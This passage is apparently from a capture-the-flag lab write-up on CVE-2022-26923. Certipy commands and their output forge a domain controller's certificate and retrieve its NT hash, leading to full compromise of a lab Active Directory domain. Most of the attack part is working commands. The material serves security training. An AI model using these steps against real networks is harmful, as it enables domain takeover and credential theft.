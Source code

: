 Forging a Malicious Certificate  

Time to regenerate some certificates! Let's run that same command of Certipy again to request a new certificate for our computer:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
[*] Saved certificate and private key to 'lundc.pfx'
```

This time we noticed something different. Even though we requested a certificate for THMPC, we got a certificate for LUNDC. Let's verify that this certificate is working and will return the NTLM hash of the LUNDC machine account instead:

AttackBox Terminal

```shell-session
(certipy) [thm@thm]$ certipy auth -pfx lundc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: lundc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'lundc.ccache'
[*] Trying to retrieve NT hash for 'lundc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': <Redacted>
```

We officially have the NTLM hash for the machine account of LUNDC! Since LUNDC is a domain controller and we have administrative access to the DC, we have fully compromised the domain in one hop! If you want to take this further, you can follow the steps in Task 5 of the previous [AD CS room](http://tryhackme.com/jr/adcertificatetemplates) to request a TGT using the certificate and alter the password on one of the DA's just to prove that you have indeed fully compromised the domain.  

Answer the questions below

```
┌──(witty㉿kali)-[~/Downloads]
└─$ mkdir CVE-2022-26923
                                                                                  
┌──(witty㉿kali)-[~/Downloads]
└─$ cd CVE-2022-26923 
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ ls
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ sudo nano /etc/hosts      
[sudo] password for witty: 
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ tail /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.10.188.193 lundc.lunar.eruca.com lundc lunar-LUNDC-CA lunar.eruca.com

```